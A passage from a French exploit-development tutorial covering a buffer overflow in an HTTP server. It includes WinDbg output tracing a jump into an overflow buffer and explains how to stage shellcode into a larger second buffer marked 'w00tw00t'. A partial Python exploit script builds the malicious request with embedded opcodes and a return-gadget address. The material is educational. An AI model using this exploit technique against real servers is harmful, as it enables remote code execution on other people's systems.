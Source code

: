 ```powershell
# Le `2f00` correspond a `./`
0:004> dc 022fea9f - 4
022fea9b  41412f00 41414141 41414141 41414141  ./AAAAAAAAAAAAAA
022feaab  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
[...]
#
0:004> t
eip=022fea88
022fea88 0f8411000000    je      022fea9f                                [br=1]
#
0:004> t
eip=022fea9f
022fea9f 41              inc     ecx
#
0:004> u @eip
022fea9f 41              inc     ecx
022feaa0 41              inc     ecx
022feaa1 41              inc     ecx
[...]
```

Le buffer de `0x41` fait 251 bytes, ce qui est trop petit pour un shellcode de reverse shell (environ 300 bytes) et beaucoup trop petit pour un shellcode de Meterpreter.

On pourrait utiliser un plus petit shellcode ou trouver un moyen de stocker un shellcode plus grand.

### Trouver de l'espace supplémentaire

L'espace du payload étant limité, il faut trouver un *buffer* additionnel dans une autre région de la mémoire avant le crash et de rediriger le flot d'exécution vers ce buffer. Si on arrive à stocker un *buffer* plus large ailleurs on peut utiliser le premier  *buffer* pour écrire un *shellcode* de type *stage one*. L'objectif de ce *shellcode* sera de rediriger le flot d'exécution vers le deuxième buffer ou on aura assez de place pour stocker un payload plus large.

Pour déterminer ce qui va être stocke dans la mémoire de notre application

- Soit faire du *reverse engineering*
- Soit faire des suppositions base sur le type d'application

On essaye de trouver un espace supplémentaire en ajoutant un *buffer* après la fin de la requête `HTTP` à travers la variable `shellcode` :

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 253

  httpMethod = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /" # XOR ECX ECX; TEST ECX ECX; JE 0x17
  inputBuffer = b"\x41" * size
  inputBuffer += pack("<L", (0x418674)) # 0x00418674 : POP EAX ; RET
  httpEndRequest = b"\r\n\r\n"

  shellcode = b"w00tw00t" + b"\x44" * 400

  buf = httpMethod + inputBuffer +  httpEndRequest + shellcode
```

